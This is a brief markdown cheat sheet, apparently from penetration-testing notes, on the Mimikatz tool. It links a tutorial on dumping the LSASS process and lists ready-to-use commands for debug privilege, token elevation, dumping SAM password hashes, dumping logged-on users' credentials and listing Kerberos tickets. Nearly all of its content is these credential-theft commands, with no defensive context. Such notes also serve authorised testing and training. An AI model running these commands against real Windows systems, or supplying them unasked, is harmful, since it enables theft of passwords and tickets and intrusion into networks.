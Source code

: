 # Mimikatz

## Readings

* Dump LSASS process and load it into Mimikatz: [http://www.fuzzysecurity.com/tutorials/18.html](http://www.fuzzysecurity.com/tutorials/18.html)

## Examples

Dump password hashes

```
privilege::debug
token::elevate
lsadump::sam
```

Dump credentials of logged-on users

```
privilege::debug
sekurlsa::logonpasswords
```

Show Kerberos tickets

```
sekurlsa::tickets
```

